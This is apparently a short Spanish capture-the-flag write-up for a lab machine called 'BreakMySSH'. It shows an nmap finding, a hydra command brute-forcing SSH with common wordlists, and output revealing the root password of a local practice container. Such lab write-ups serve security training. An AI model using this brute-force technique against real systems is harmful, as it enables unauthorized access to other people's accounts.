 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# BreakMySSH

Con un `nmap` vemos que solo está abierto el puerto de SSH. Por el nombre de la máquina me puedo imaginar que hay que hacerle fuerza bruta.

```bash
hydra -L /usr/share/wordlists/SecLists-2025.2/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722020416.png" alt=""><figcaption></figcaption></figure></div>

